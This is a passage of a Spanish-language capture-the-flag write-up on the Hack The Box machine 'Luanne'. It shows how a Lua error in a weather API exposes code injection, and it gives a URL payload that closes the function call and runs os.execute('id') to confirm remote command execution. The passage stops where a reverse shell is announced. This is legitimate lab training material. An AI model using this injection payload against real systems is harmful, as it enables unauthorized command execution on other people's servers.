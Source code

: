 ahora mandemos una comilla simple al final:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LUANNE/images/12.png)

vemos un error en un archivo llamado **/usr/local/webapi/weather.lua** al parecer es un script en Lua y si esta ejecutando codigo en Lua veamos como podemos ejecutar comandos en ese lenguaje:

[aqui](https://stackoverflow.com/questions/9676113/lua-os-execute-return-value) encontre como es la sintaxis:

```lua
os.execute("whoami")
```

vemos que una funcion termina en parentesis () y podemos comentar con -- -, entonces podemos podemos cerrar la funcion, poner la llamada al sistema y comentar lo demas que se ejecuta, para colocar la otra sentencia se puede poner **,**. El payload quedaria de la siguiente manera:

```bash
?city=London');os.execute('id')--
```

como es un parametro que va por la url es mejor hacerle un url encode por los caracteres especiales, desde burpsuite esto lo puedes hacer con **Ctrl+u** (asi esta en la imagen):

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LUANNE/images/13.png)

por el resultado vemos que tenemos ejecucion remota de comandos (RCE), vamos a entablarnos una reverse shell:
